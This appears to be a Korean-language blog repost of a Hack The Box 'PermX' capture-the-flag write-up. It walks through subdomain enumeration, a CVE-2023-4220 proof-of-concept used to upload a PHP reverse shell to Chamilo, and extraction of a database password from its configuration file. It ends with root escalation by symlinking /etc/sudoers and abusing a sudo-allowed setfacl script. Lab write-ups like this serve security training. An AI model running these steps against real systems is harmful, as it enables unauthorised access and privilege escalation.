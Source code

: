 ```yaml
---
title: "PermX  HTB 가치 분석 및 사용법"
description: ""
coverImage: "/assets/img/2024-07-09-PermXHTB_0.png"
date: 2024-07-09 22:54
ogImage:
  url: /assets/img/2024-07-09-PermXHTB_0.png
tag: Tech
originalTitle: "PermX — HTB"
link: "https://medium.com/@kript0r3x/permx-htb-84871140b508"
isUpdated: true
---
```


<img src="/assets/img/2024-07-09-PermXHTB_0.png" />

리눅스 머신이고, nmap 스캔을 시작하면 두 개의 열린 포트가 나타납니다.

```js
$ nmap -A -sV -sC 10.129.84.129 -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80번 포트에서 실행되는 웹 서버가 http://permx.htb를 가리킵니다. vhosts에 추가하고 해당 URL로 이동하면 정적 웹 사이트가 표시됩니다. 흥미로운 내용은 없습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

그럼, ffuf를 사용하여 하위 도메인 열거를 수행하면 lms.permx.htb 하위 도메인을 확인할 수 있습니다.

```js
└─$ ffuf -w /opt/useful/Discovery/Web-Content/big.txt:FUZZ -u http://permx.htb:80 -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb:80
 :: Wordlist         : FUZZ: /opt/useful/Discovery/Web-Content/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1389ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 72ms]
:: Progress: [20476/20476] :: Job [1/1] :: 604 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

그 후 vhosts에 추가하고 웹 사이트를 방문하면 Chamilo 웹 애플리케이션의 로그인 페이지가 표시됩니다.

<img src="/assets/img/2024-07-09-PermXHTB_1.png" />

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

채밀로 애플리케이션의 최근 취약점을 찾던 중, 아래 GitHub을 발견했어요. 거기에는 인증되지 않은 역방향 코드 실행을 얻기 위한 POC가 나와 있어요.

위 PHP 역술을 사용하면, 위 POC로 역방향 쉘을 획득할 수 있어요. (공격 호스트의 IP 주소로 IP 주소를 수정해주세요)

[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```js
─$ ./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 1234
-e
curl: (6) Could not resolve host: lms.permx.htb

# 아래 명령어를 사용하여 TTY를 상호작용하는 데에 사용할 수 있어요;)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
# CTRL + Z
# stty raw -echo; fg

# 포트 1234에서 역술을 시작했어요. . . . . . .
```

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

www-data 사용자로 쉘에 접속했습니다. linpeas를 실행하여 로컬호스트에서 chamilo 사용자의 데이터베이스 자격 증명을 찾았습니다. 홈 디렉토리를 살펴보니 mtz라는 사용자가 있었습니다. 찾은 비밀번호를 사용하여 mtz 사용자로 호스트에 SSH로 접속했습니다.

```js
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

```js
cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```

mtz 사용자로 호스트에 로그인한 후, 사용자 플래그를 찾았습니다. 또한, 이 사용자가 root로서 '/opt/acl.sh'와 같은 사용자 지정 스크립트를 실행할 수 있다는 것을 알게 되었습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
사용자 mtz가 permx에서 다음 명령을 실행할 수 있습니다:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

이 스크립트는 모든 사용자에 대해 파일의 권한을 변경할 수 있지만 /home/mtz 디렉토리의 파일 권한만 변경할 수 있습니다.

```js
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

이 스크립트를 사용하여 sudoers 파일의 권한을 변경하고 mtz 사용자에게 호스트에서 sudo 권한을 부여했습니다. 이를 위해 /home/mtz 디렉토리에 /etc/sudoers 파일에 대한 심볼릭 링크를 만들고 사용자에게 읽기/쓰기 권한을 부여하기 위해 스크립트를 사용했습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

다음과 같이 sudoers 파일을 수정했습니다.

```js
<SNIP>

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```

다시 로그인하고 'sudo su'를 입력하면 루트 셸을 얻을 수 있습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
mtz@permx:~$ sudo su
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
```

